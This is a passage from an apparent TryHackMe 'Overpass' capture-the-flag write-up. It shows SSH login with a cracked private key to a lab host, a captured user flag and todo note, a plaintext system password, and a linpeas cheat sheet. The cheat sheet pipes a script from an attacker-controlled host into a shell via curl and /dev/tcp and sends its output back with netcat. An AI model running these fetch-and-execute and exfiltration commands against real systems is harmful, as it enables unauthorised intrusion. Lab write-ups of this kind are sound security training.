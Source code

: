 10. Cracking the ssh:
```bash
┌──(subhro1530㉿subhro)-[~/Desktop/tryhackme/Overpass]
└─$ ssh -i rsa_key james@10.10.35.187 
Enter passphrase for key 'rsa_key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul 10 08:52:34 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.35.187
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
```

11. Let's see what's inside the todo.txt file:
```bash
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

12. 
```
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

13. Using linpeas:
```bash
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
